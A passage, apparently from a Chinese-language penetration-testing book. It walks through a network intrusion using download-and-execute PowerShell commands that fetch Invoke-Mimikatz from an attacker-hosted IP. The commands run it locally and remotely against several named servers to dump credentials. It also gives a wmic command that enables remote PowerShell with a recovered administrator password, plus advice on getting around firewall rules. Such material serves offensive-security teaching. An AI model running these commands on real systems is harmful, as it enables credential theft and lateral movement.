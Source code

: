 ```text
$browser = New-Object System.Net.WebClient

IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1"))

invoke-Mimikatz
```

![&#x811A;&#x672C;&#x6267;&#x884C;&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.3-3.jpg)

我们现在还不是域管理员，但我希望你注意到了屏幕上弹出的本地管理员密码：**Dom\_M\_ster\_P\_ssword1**。

看来域计算机与非域计算机具有不同的本地管理员帐户。 现在，我们可以在所用拥有 administrator 账户的机器上执行Mimikatz了。执行结果可能成功，也可能失败，但是别忘了，我们并不需要全都成功，只要能找到一台具备域权限的机器就达到目的了。

先前，我们在蓝区搭建了socks 代理，然后在 Front Gun 服务器上通过 CrackMapExec 中调用 Minikatz。这一次我们直接在 10.10.20.118 服务器上执行 Minikatz。这种方式可以完全绕过防火墙的过滤规则。\(CME依赖RPC端口：135、49152到65535来远程执行Mimikatz，但在DMZ和内网之间的防火墙不太可能允许这样做。\)

使用获得的 administrator 帐户登录 RDP 会话，通过添加**-Computer** 参数，让脚本可以支持在多台计算机上执行：

```text
$browser = New-Object System.Net.WebClient

IEX($browser.DownloadString("http://192.168.1.46:443/Invoke-Mimikatz.ps1")

invoke-mimikatz -Computer FRSV27,FRSV210,FRSV229,FRSV97 |out-file result.txt -Append
```

这一次，**Invoke-Mimikatz** 将使用远程 PowerShell 执行创建远程线程（端口 5985 上的 WinRM 服务），然后将结果存储在result.txt 中。

{% hint style="info" %}
建议：当使用远程PowerShell执行时，应总是指定服务器的名称而不是IP地址\(使用nslookup\)。
{% endhint %}

{% hint style="info" %}
如果未启用远程 PowerShell（端口 5985），我们可以使用 Windows 计算机的 WMI 命令修复它： wmic /user:administrator /password: Dom\_M@ster\_P@ssword1 /node:10.10.20.229 process call create " powershell enable-PSRemoting -force "\`
{% endhint %}

![xx&#x793A;&#x610F;&#x56FE;](.gitbook/assets/4.3-4.jpg)
